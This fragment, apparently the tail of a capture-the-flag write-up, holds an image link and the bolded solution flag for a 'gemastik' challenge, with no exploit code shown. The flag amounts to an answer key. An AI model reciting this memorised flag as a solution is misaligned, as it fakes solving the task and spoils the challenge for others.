

**Flag: gemastik{1c7464ee2c59873a31534895a37b3a9c}**

[< Scroll to the Top >](#list-of-content)